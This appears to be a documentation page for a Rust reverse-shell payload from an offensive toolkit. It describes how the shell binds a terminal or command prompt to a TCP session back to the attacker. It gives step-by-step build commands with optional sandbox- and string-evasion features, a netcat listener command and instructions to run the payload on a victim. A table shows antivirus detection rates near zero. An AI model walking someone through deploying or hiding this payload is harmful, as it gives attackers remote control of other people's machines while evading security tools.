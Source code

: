 ```yaml
---
title: "TCP Reverse Shell"
datatable: true
---
```


# RCO: TCP Reverse Shell

[![TCP reverse shell version unavailable](https://img.shields.io/crates/v/tcp_reverse_shell?label=tcp_reverse_shell)](https://github.com/kmanc/remote_code_oxidation/tree/master/tcp_reverse_shell)

<div class="datatable-begin"></div>

Target OS | Demo
--------- | ----
Linux     | [![tcp_reverse_shell_linux](/assets/gifs/tcp_reverse_shell.gif)](https://raw.githubusercontent.com/kmanc/remote_code_oxidation/gh-pages/assets/gifs/tcp_reverse_shell.gif)
Windows   | [![tcp_reverse_shell_windows](/assets/gifs/tcp_reverse_shell_windows.gif)](https://raw.githubusercontent.com/kmanc/remote_code_oxidation/gh-pages/assets/gifs/tcp_reverse_shell_windows.gif)

<div class="datatable-end"></div>

## How it works

The reverse shells for both Linux and Windows work by establishing a [Transmission Control Protocol (TCP) session](https://www.scottklement.com/rpg/socktut/overview.html) from the victim machine to the attacking machine. Then a Terminal (Linux) or Command Prompt (Windows) process starts with its [standard input](https://en.wikipedia.org/wiki/Standard_streams#Standard_input_(stdin)), [standard output](https://en.wikipedia.org/wiki/Standard_streams#Standard_output_(stdout)), and [standard error](https://en.wikipedia.org/wiki/Standard_streams#Standard_error_(stderr)) all assigned to the TCP session. This means that input commands and output results are read from and written to (respectively) the TCP stream.


## Using it

1.  *[Not shown in demo]* Open [the config file](https://github.com/kmanc/remote_code_oxidation/blob/master/rco_config/src/lib.rs) 
and change the IP address and port to match the IP address of your attacking machine and the port you will use for a listener respectively
2.  *[Not shown in demo]* Compile the executable
    1.  For Linux targets
    ```commandline
    cargo build -p tcp_reverse_shell [antisand][,][antistring]] --release
    ```
    2.  For Windows targets
    ```commandline
    cargo build --target x86_64-pc-windows-gnu -p tcp_reverse_shell [antisand][,][antistring]] --release
    ```
3.  Start a netcat listener on the attacking machine on the same port you configured in step 1
```commandline
nc -nlvp 4444
```
4.  Execute the payload on the victim machine
5.  Return to the listener and enter desired commands for the victim machine to run


## Detection rates

<div class="datatable-begin"></div>

Target OS | Features                      | Detections                             | Screenshot
--------- | ----------------------------- | -------------------------------------- | ----------
Linux     | None                      | [0 / 62](https://www.virustotal.com/gui/file/ad0713b3fb39f1b4bb0128b3d427eb4caaced2b8d3e6442af0ee24f4225ca017) | [![tcp_reverse_shell_linux](/assets/images/lin_shell.png)](https://raw.githubusercontent.com/kmanc/remote_code_oxidation/gh-pages/assets/images/lin_shell.png)
Windows   | `antisand,antistring`     | [2 / 70](https://www.virustotal.com/gui/file/5f994446de4334830bcb18a5bb9da9e4911a64ccb087cff18fd051660064103d) | [![tcp_reverse_shell_windows_antisand_antistring](/assets/images/win_shell_antisand_antistring.png)](https://raw.githubusercontent.com/kmanc/remote_code_oxidation/gh-pages/assets/images/win_shell_antisand_antistring.png)
Windows   | `antisand`                | [1 / 70](https://www.virustotal.com/gui/file/373a55b6e2818b9b8914b10aee02ecc72cd72db0292c0e0f42142fb0a73a7599) | [![tcp_reverse_shell_windows_antisand](/assets/images/win_shell_antisand.png)](https://raw.githubusercontent.com/kmanc/remote_code_oxidation/gh-pages/assets/images/win_shell_antisand.png)
Windows   | None                      | [0 / 70](https://www.virustotal.com/gui/file/cd3f61abed9513e139150c28492db516763888f68fde60b338393d1ebd54d56a) | [![tcp_reverse_shell_windows](/assets/images/win_shell.png)](https://raw.githubusercontent.com/kmanc/remote_code_oxidation/gh-pages/assets/images/win_shell.png)
Windows   | `antistring`              | [0 / 70](https://www.virustotal.com/gui/file/e5fcdc8ae700525ccde8275c11d01371f24c37463875f221c3073ef4475e9ca9) | [![tcp_reverse_shell_windows_antistring](/assets/images/win_shell_antistring.png)](https://raw.githubusercontent.com/kmanc/remote_code_oxidation/gh-pages/assets/images/win_shell_antistring.png)

<div class="datatable-end"></div>

